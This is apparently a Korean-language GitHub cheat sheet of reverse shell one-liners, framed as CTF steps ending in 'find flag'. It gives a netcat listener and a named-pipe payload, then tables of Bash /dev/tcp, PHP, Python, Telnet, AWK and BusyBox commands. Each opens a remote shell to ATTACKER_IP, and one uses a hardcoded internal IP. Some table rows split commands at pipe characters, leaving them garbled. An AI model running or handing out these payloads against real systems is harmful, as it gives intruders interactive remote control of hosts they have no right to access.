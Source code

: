 # 리버스 셸 명령어 정리

#step 1 start netcat
nc -lvnp 4444

#step 2 payload named a pipe reverse shell (Using a reverse or bind shell)
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc [ATTACKER_IP] 4444 >/tmp/f

#step 3 find flag

## Bash

| 유형      | 명령어                                                             | 설명                                                              |
| --------- | ------------------------------------------------------------------ | ----------------------------------------------------------------- | ------------------------------------------- |
| 기본      | `bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1`                         | 대화형 셸을 TCP로 리디렉션, 표준 입출력/에러 모두 공격자에게 전달 |
| Read Line | `exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5                         | while read line; do $line 2>&5 >&5; done`                         | 파일 디스크립터 5로 명령어 단위 비대화형 셸 |
| FD 196    | `0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196` | 임의 FD(196) 사용, 표준 입출력/에러 모두 리디렉션                 |
| FD 5      | `bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5`              | FD 5로 표준 입출력/에러 모두 리디렉션                             |

## PHP

| 유형      | 명령어                                                                 | 설명                                                |
| --------- | ---------------------------------------------------------------------- | --------------------------------------------------- |
| exec 함수 | `php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'` | fsockopen으로 소켓 연결, exec로 셸 실행 및 리디렉션 |
| 기타 함수 | `shell_exec`, `system`, `passthru`, `popen`                            | exec와 유사, 각각 출력 방식만 다름                  |

## Python

| 유형       | 명령어                                                                                                                                                                                                                       | 설명                                                  |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------- |
| 환경변수   | `export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'`  | 환경변수로 IP/포트 지정, 소켓 연결 후 pty로 대화형 셸 |
| subprocess | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'` | IPv4 TCP 소켓, dup2로 리디렉션, pty로 대화형 셸       |
| 간단형     | `python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'`                                                                                 | 위와 동일, 더 간결                                    |

## 기타

| 도구    | 명령어                                                                          | 설명                                            |
| ------- | ------------------------------------------------------------------------------- | ----------------------------------------------- | -------------------------------------------- | ------------------------ | -------------------------------------------------------------- | ---------------------------------------- |
| Telnet  | `TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF                    | sh 1>$TF`                                       | mkfifo로 파이프 생성, telnet으로 양방향 통신 |
| AWK     | `awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" | & s; s                                          | & getline c; if(c){ while ((c                | & getline) > 0) print $0 | & s; close(c); } } while(c != "exit") close(s); }}' /dev/null` | AWK 내장 TCP 기능 활용, 루프/조건문 포함 |
| BusyBox | `busybox nc ATTACKER_IP 443 -e sh`                                              | BusyBox 내장 nc로 -e 옵션 사용, 연결 시 sh 실행 |

---

## 리디렉션 정리

- `>` : 표준 출력(stdout) 리디렉션
- `2>` : 표준 에러(stderr) 리디렉션
- `2>&1` : 표준 에러를 표준 출력과 동일하게 리디렉션 (순서 중요)
- `>&` : Bash에서 표준 출력/에러를 동시에 리디렉션 (예: `>& /dev/tcp/ATTACKER_IP/443`)

### 예시

- `command > file.txt 2>&1` : 표준 출력/에러 모두 file.txt로
- `command >& file.txt` : 위와 동일 (Bash 한정)

---

## 요약

- `>&`는 `2>&1`의 간단 표기법 (Bash 전용)
- 리버스 셸에서 표준 입출력/에러를 모두 공격자에게 전달해야 완전한 양방향 통신 가능
- 복잡한 리디렉션은 공격자와의 완전한 셸 통신을 위해 필수
